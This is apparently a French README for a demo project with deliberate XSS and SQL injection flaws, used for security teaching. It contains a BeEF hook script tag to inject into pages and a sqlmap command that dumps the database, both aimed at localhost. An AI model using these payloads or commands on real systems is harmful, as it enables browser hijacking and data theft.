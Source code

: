 # Projet démo Quicky XSS-SQLi

Projet de démonstration de quelques vulnérabilités XSS & SQLi

## Build

Le projet est buildé avec Maven.

    mvn clean install

## Execution

Pour executer l'application il vous faudra obligatoirement une base de donnée MYSQL.

    docker run -p 3306:3306 -e MYSQL_ROOT_PASSWORD=root -e MYSQL_DATABASE=quicky mysql
    mvn springboot:run
    
# SQLi
    
 Des exemples d'injections SQL sont disponibles dans src/main/resources/sqli.sql 
    
# Beef XSS

    docker run -p 3000:3000 -d janes/beef
    
 Dashboard:
 
    http://localhost:3000/ui/panel
    
 Hook :
 
    http://localhost:3000/hook.js
    <script src="http://localhost:3000/hook.js"></script>


# sqlmap

    sqlmap -u 'http://localhost:8081/sqli/blind?input=patrick' --dump
